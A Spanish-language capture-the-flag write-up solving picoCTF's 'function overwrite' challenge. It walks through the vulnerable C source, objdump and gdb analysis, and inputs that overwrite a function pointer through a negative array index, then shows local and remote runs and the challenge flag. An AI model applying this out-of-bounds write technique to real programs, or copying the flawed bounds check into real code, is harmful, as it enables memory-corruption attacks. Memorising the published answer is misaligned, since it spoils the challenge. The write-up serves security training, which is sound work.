



# function overwrite PicoCTF (Hard)

## Contexto de la maquina

### Trayectoria function overwrite


<figure><figcaption></figcaption></figure>

### Descripción

Este reto consiste en analizar un **binario vulnerable escrito en C** que utiliza **punteros a funciones**. El objetivo es identificar una vulnerabilidad de memoria que permita **modificar el flujo de ejecución del programa** y provocar que se ejecute una función distinta a la prevista originalmente.

El programa permite introducir datos desde la entrada estándar y posteriormente realiza operaciones sobre un **array de enteros**. Debido a una validación incorrecta de índices, es posible acceder a posiciones de memoria fuera de los límites del array, lo que permite modificar un **puntero a función global**.

**Objetivo del reto**

Explotar la vulnerabilidad del programa para redirigir la ejecución hacia una función alternativa que permita revelar la **flag**.

**Tipo de reto**

* Binario
* Linux
* Explotación de memoria
* Punteros a funciones

**Habilidades y técnicas evaluadas**

* Análisis de código fuente en C
* Comprensión de punteros a funciones
* Explotación de **out-of-bounds array access**
* Manipulación de memoria
* Uso de herramientas de reversing (`objdump`, `gdb`)
* Comprensión del layout de memoria de variables globales

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

## Despliegue del CTF

En la propia pagina buscaremos el `CTF`, dentro veremos dos archivos los cuales nos podremos descargar llamados `vuln` y `vuln.c`.

El objetivo de estos `CTFs` es encontrar la `flag` final.

## Analisis del binario C\#

Si leemos la descripcion del reto...

```
You can point to all kinds of things in C. Checkout our function pointers demo program. 
You can view source here. And connect with it using nc saturn.picoctf.net 58151
```

La descripción básicamente nos indica que debemos **analizar un programa que utiliza function pointers en C**, lo cual ya nos da una pista importante, ya que los **punteros a funciones suelen ser un objetivo común en vulnerabilidades de memoria**.

También nos indican que podemos descargar:

* El **binario ya compilado**
* El **código fuente del programa**

Antes de comenzar con el análisis vamos a crear una **flag de prueba local** para poder probar el exploit en nuestro entorno.

```shell
echo 'picoCTF{f4nct1on_0verwrit3}' > flag.txt
```

De esta forma, si conseguimos explotar el programa correctamente, podremos comprobar que se lee el contenido del archivo `flag.txt`.

### Análisis del código

<figure><figcaption></figcaption></figure>

Ahora vamos a analizar el código proporcionado.

> vuln.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
 
int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

Vemos en el codigo que tiene una pequeña vulnerabilidad en esta parte de aqui:

```c
if (num1 < 10)
{
    fun[num1] += num2;
}
```

Es un **desbordamiento de array** que permite modificar el puntero de función `check`. La validación es débil porque solo verifica que `num1` sea menor que 10, **pero no verifica que sea mayor o igual a 0**.

Si ponemos `num1` negativo, podemos acceder a posiciones de memoria **antes** del array `fun`. Esto nos permite modificar el puntero de función `check` que está antes en memoria.

#### Diseño de memoria

En memoria, asumiendo que `fun` y `check` están cerca en la sección de datos:

```
Direcciones bajas                    Direcciones altas
   |                                    |
   v                                    v
[check][fun[0]][fun[1]]...[fun[9]]
   ^      ^
   |      |
  -1      0
```

Si hacemos `num1 = -1`, estaríamos modificando `fun[-1]`, que sería justo donde está almacenado el puntero `check`. Sin embargo, necesitamos verificar el offset exacto.

#### Obteniendo direcciones

Primero obtenemos las direcciones de las funciones con objdump:

```shell
objdump -t vuln | grep checker
```

Respuesta:

```
08049436 g     F .text	0000013a              hard_checker
080492fc g     F .text	0000013a              easy_checker
```

Calculamos la diferencia:

```
>>> hard = 0x08049436
>>> easy = 0x080492fc
>>> hard - easy
314
>>> easy - hard
-314
```

Queremos que `check` (que apunta a `hard_checker`) pase a apuntar a `easy_checker`. Necesitamos restarle 314 a la dirección actual.

#### Encontrando el offset correcto con GDB

Usamos GDB para encontrar la posición exacta de `check` relativa a `fun`:

```shell
gdb ./vuln
(gdb) break vuln
(gdb) run
```

La diferencia es de 64 bytes. Como es un array de enteros de 32 bits (4 bytes cada uno), el offset en índices es:

```
64 bytes / 4 bytes por entero = 16 posiciones
```

Por lo tanto, `check` está en `fun[-16]`, no en `fun[-1]`.

#### Análisis del assembly

Desensamblamos `vuln` para confirmar:

```
(gdb) disassemble vuln
```

Respuesta:

```
Dump of assembler code for function vuln:
   0x08049570 <+0>:	endbr32
   0x08049574 <+4>:	push   %ebp
   0x08049575 <+5>:	mov    %esp,%ebp
   0x08049577 <+7>:	push   %esi
   0x08049578 <+8>:	push   %ebx
=> 0x08049579 <+9>:	sub    $0x90,%esp
   0x0804957f <+15>:	call   0x80491f0 <__x86.get_pc_thunk.bx>
   0x08049584 <+20>:	add    $0x2a7c,%ebx
   0x0804958a <+26>:	sub    $0xc,%esp
   0x0804958d <+29>:	lea    -0x1f40(%ebx),%eax
   0x08049593 <+35>:	push   %eax
   0x08049594 <+36>:	call   0x80490f0 <printf@plt>
   0x08049599 <+41>:	add    $0x10,%esp
   0x0804959c <+44>:	sub    $0x8,%esp
   0x0804959f <+47>:	lea    -0x88(%ebp),%eax
   0x080495a5 <+53>:	push   %eax
   0x080495a6 <+54>:	lea    -0x1f04(%ebx),%eax
   0x080495ac <+60>:	push   %eax
   0x080495ad <+61>:	call   0x8049180 <__isoc99_scanf@plt>
   0x080495b2 <+66>:	add    $0x10,%esp
   0x080495b5 <+69>:	sub    $0xc,%esp
   0x080495b8 <+72>:	lea    -0x1efc(%ebx),%eax
   0x080495be <+78>:	push   %eax
   0x080495bf <+79>:	call   0x8049120 <puts@plt>
   0x080495c4 <+84>:	add    $0x10,%esp
   0x080495c7 <+87>:	sub    $0x4,%esp
   0x080495ca <+90>:	lea    -0x90(%ebp),%eax
   0x080495d0 <+96>:	push   %eax
   0x080495d1 <+97>:	lea    -0x8c(%ebp),%eax
   0x080495d7 <+103>:	push   %eax
   0x080495d8 <+104>:	lea    -0x1ea9(%ebx),%eax
   0x080495de <+110>:	push   %eax
   0x080495df <+111>:	call   0x8049180 <__isoc99_scanf@plt>
   0x080495e4 <+116>:	add    $0x10,%esp
   0x080495e7 <+119>:	mov    -0x8c(%ebp),%eax
   0x080495ed <+125>:	cmp    $0x9,%eax
   0x080495f0 <+128>:	jg     0x8049614 <vuln+164>
   0x080495f2 <+130>:	mov    -0x8c(%ebp),%eax
   0x080495f8 <+136>:	mov    0x80(%ebx,%eax,4),%ecx
   0x080495ff <+143>:	mov    -0x90(%ebp),%edx
   0x08049605 <+149>:	mov    -0x8c(%ebp),%eax
   0x0804960b <+155>:	add    %ecx,%edx
   0x0804960d <+157>:	mov    %edx,0x80(%ebx,%eax,4)
   0x08049614 <+164>:	mov    0x40(%ebx),%esi
   0x0804961a <+170>:	sub    $0xc,%esp
   0x0804961d <+173>:	lea    -0x88(%ebp),%eax
   0x08049623 <+179>:	push   %eax
   0x08049624 <+180>:	call   0x8049140 <strlen@plt>
   0x08049629 <+185>:	add    $0x10,%esp
   0x0804962c <+188>:	sub    $0x8,%esp
   0x0804962f <+191>:	push   %eax
   0x08049630 <+192>:	lea    -0x88(%ebp),%eax
   0x08049636 <+198>:	push   %eax
   0x08049637 <+199>:	call   *%esi
   0x08049639 <+201>:	add    $0x10,%esp
   0x0804963c <+204>:	nop
   0x0804963d <+205>:	lea    -0x8(%ebp),%esp
   0x08049640 <+208>:	pop    %ebx
   0x08049641 <+209>:	pop    %esi
   0x08049642 <+210>:	pop    %ebp
   0x08049643 <+211>:	ret
End of assembler dump.
```

Observamos líneas clave:

* `0x080495f8 <+136>: mov 0x80(%ebx,%eax,4),%ecx` → acceso a `fun` en `ebx+0x80`
* `0x08049614 <+164>: mov 0x40(%ebx),%esi` → carga de `check` en `ebx+0x40`

Confirmamos la diferencia de 64 bytes (0x80 - 0x40 = 0x40 = 64).

#### Calculando el payload

Necesitamos:

* `num1 = -16` (offset correcto para llegar a `check`)
* `num2` = diferencia entre direcciones = -314

Cuando se ejecute `fun[-16] += -314`, estaremos restando 314 a la dirección de `hard_checker`, obteniendo así la dirección de `easy_checker`.

#### Verificando la modificación

Ponemos un breakpoint justo después de la modificación y antes de la llamada:

```shell
(gdb) break *0x08049614
(gdb) run
Start it from the beginning? (y or n) y
(gdb) continue
# Introducimos: AAAA y luego -16 -314
(gdb) print/x *(int*)0x804c040
```

Respuesta:

```
$1 = 0x80492fc
```

Ahora `check` apunta a `easy_checker` (0x080492fc)

#### Obteniendo la flag (local)

Ahora necesitamos que `easy_checker` nos dé la flag. Esta función requiere que la suma de los caracteres del story sea exactamente 1337.

Calculamos un string que sume 1337:

* Carácter 'z' = ASCII 122
* 10 'z' = 1220
* Necesitamos 117 más → carácter 'u' (ASCII 117)
* String final: "zzzzzzzzzzu" (10 z's + 1 u)

Ejecutamos el exploit:

```shell
./vuln
```

Respuesta:

```
Tell me a story and then I'll tell you if you're a 1337 >> zzzzzzzzzzu
On a totally unrelated note, give me two numbers. Keep the first one less than 10.
-16 -314
You're 1337. Here's the flag.
picoCTF{f4nct1on_0verwrit3}
```

Aquí ocurren dos cosas importantes:

1. **`-16` permite escribir fuera de los límites del array `fun`**, accediendo a memoria anterior al array.
2. Esa escritura modifica el **puntero a función `check`**, haciendo que ahora apunte a `easy_checker`.

El segundo valor (`-314`) es el valor que se suma en la operación:

```c
fun[num1] += num2;
```

lo que termina ajustando el contenido de memoria hasta que el puntero a función coincide con la dirección de `easy_checker`.

De esta forma conseguimos **redirigir el flujo de ejecución del programa** hacia la función que nos interesa.

## Explotación en el reto remoto

Una vez comprobado que el exploit funciona correctamente en local, podemos utilizar exactamente los mismos valores contra el servicio remoto que proporciona el reto.

Nos conectamos con `nc`:

```shell
nc saturn.picoctf.net 58151
```

Respuesta:

```
Tell me a story and then I'll tell you if you're a 1337 >> zzzzzzzzzzu
On a totally unrelated note, give me two numbers. Keep the first one less than 10.
-16 -314
You're 1337. Here's the flag.
picoCTF{0v3rwrit1ng_P01nt3rs_058368b8}
```

Con esto veremos que hemos obtenido correctamente la **flag del servidor remoto**, explotando la vulnerabilidad del programa.

En resumen, el exploit consiste en:

1. Aprovechar la **falta de validación de índices negativos** en el array `fun`.
2. Utilizar ese acceso fuera de límites para **sobrescribir el puntero a función `check`**.
3. Redirigir la ejecución hacia `easy_checker`.
4. Enviar un `story` cuya suma ASCII sea **1337** para que la función imprima la flag.

> flag.txt

```
picoCTF{0v3rwrit1ng_P01nt3rs_058368b8}
```
